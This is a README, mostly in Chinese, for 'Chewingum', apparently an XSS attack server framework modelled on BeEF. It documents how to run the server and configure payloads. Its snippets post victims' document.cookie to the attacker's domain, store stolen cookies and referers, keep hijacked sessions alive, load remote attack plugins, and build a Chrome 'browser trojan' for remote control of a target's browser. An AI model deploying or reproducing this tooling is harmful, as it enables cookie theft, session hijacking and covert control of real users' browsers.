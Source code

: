 # Chewingum [alpha][0.2][1140214]

Name
----
**chewingum - individual XSS server framework**

Startup
-------
    python ./config.py install [ domain salt filekeyPath | -h ]
    python ./chewingum.py [ -h | host port debug ]

Dependencies
------------
* [Bottle - 0.11](http://bottlepy.org/)
* [Bottle-websocket](https://github.com/zeekay/bottle-websocket)
* [GeventWebSocketServer](http://sdiehl.github.io/gevent-tutorial/)


  unnecessaries
  -------------
    * [Beaker](http://beaker.rtfd.org/)

Reference
---------
* (Gum.js) - [xss.js](http://zone.wooyun.org/content/2113)
           - [BeEF](http://beefproject.com/)

Helptext
--------

1.login

采用filekey验证, 上传filekey或输入URL便可登录.

2.server

server处代码会直接在项目触发时执行,
最终会将变量serverinfo和变量browserinfo保存至数据库,
格式需为json/dict格式

    {'name':'value'}

如:

    serverinfo = {
	    'referer':b64encode(str(request.headers.get('Referer'))),
    	'ctime':b64encode(str(ctime()))
	}
	browserinfo = {
    	'cookie':b64encode(str(request.forms.get('cookie')))
	}

3.server code keyword

iferror
对变量iferror赋值, 会触发对应错误.
如:
>	iferror = 404

returns
对变量returns赋值，在iferror为空的情况下, 会返回对其赋值的内容.
如:
>	returns = '<script>alert(1)</script>'

gum.backinfo
客户端的关键字，是一个字典，默认用来暂时记录返回的信息。
当返回之后最好清空它。
>   gum.backinfo = {};

4.project name and object name

project 的项目名需是xss触发处的url或是domain.
$default是默认项目, xss触发时若未发现对应项目则按照此配置进行.

+	object 的项目名可随意更改.

5. plugins
可以这样导入server扩展,

	with open('./plus/get_info.py') as files: exec files.read()

也可以这样

    from plus.email_remind import send_mail
    send_mail(gum_emailremind)

    具体看扩展的写法

可以这样导入browser插件,

	gum.script('http://' + gum.domain + '/static/plus/tool_boomerang.js')


这样给browser插件传参,

	gum_boomerang = {
		'object_url':'http://localhost/xss',
		'post':{'xss':'yes', 'csrf':'no'},
		'eval':function(){alert(1)}
	}

同样的方法给server扩展传参,

	gum_keepsession = {
		'url':referer,
		'session':cookie,
		'data':{'a':'b'},
		'frequency':300,
		'endate':'2013-12-12 15:17:00'
	}

6.set code

这样发送browser info,

    gum.post('http://' + gum.domain + '/ing', {'cookie':document.cookie})

单次接收browser info可以参考上面的2.server
也可以这样

    browserinfo['infoname'] = b64encode(str(request.forms.get('infoname')))

多次接收browser info可以像这样,

    info_cookie = str(request.forms.get('cookie'))
	sessionid[referer][1]['cookie'] = info_cookie
	browserinfo = b64encode(sessionid.get(referer))

+		不推荐使用多次接收，默认已关闭。

7.other

使用基本探针:

server:

    with open('./plus/get_info.py') as files: exec files.read()

browser:

    gum.script('http://' + gum.domain + '/static/plus/get_info.js', function(){
        gum.post('http://' + gum.domain + '/ing', gum.backinfo);
        gum.backinfo = {};
    })

8.console

尚在测试阶段。
javascript文件在

    ./static/plus/onexsshell.js

9.browser trojan

chrome
修改./trojan/chrome/gum.js中的{{domain}}为你的chewingum的域名及端口
使用chrome or chromium打包
安装在目标的浏览器后，使用console即可操作目标浏览器。

+   尚在测试阶段
